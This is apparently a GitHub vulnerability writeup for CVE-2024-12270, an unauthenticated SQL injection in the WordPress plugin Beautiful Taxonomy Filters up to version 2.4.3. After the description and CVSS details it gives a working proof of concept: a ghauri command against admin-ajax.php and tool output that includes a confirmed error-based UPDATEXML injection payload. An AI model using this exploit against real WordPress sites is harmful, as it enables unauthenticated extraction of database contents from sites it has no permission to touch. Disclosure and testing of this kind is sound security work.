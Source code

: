 # CVE-2024-12270
Beautiful Taxonomy Filters <= 2.4.3 - Unauthenticated SQL Injection

# Description

The Beautiful taxonomy filters plugin for WordPress is vulnerable to SQL Injection via the 'selects[0][term]' parameter in all versions up to, and including, 2.4.3 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: beautiful-taxonomy-filters
- **Affected Version**: 2.4.3
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2024-12270
- **Status**: Closed

POC
---

```
ghauri -u 'https://wp-dev.ddev.site:443/wp-admin/admin-ajax.php' --data='action=update_filters_callback&selects[0][term]=1&selects[0][operator]=AND&selects[1][term]=1&selects[1][operator]=AND&nonce=d6180bd74e' --level=3 --dbms='mysql'
```

```
[13:21:20] [INFO] POST parameter 'selects[0][term]' appears to be 'MySQL >= 5.1 AND string error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)' injectable
POST parameter 'selects[0][term]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n

Ghauri identified the following injection point(s) with a total of 675 HTTP(s) requests:
---
Parameter: selects[0][term] (POST)
    Type: error-based
    Title: MySQL >= 5.1 AND string error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)
    Payload: action=update_filters_callback&selects[0][term]=1 AND UPDATEXML(0,CONCAT_WS('(', '~','r0oth3x49','~'),0)-- wXyW&selects[0][operator]=AND&selects[1][term]=1&selects[1][operator]=AND
---
[13:21:25] [INFO] testing MySQL
[13:21:25] [INFO] confirming MySQL
[13:21:25] [INFO] the back-end DBMS is MySQL

[13:21:25] [INFO] fetched data logged to text files under '/Users/me/.ghauri/wp-dev.ddev.site'

[*] ending @ 13:21:25 /2024-12-09/
````
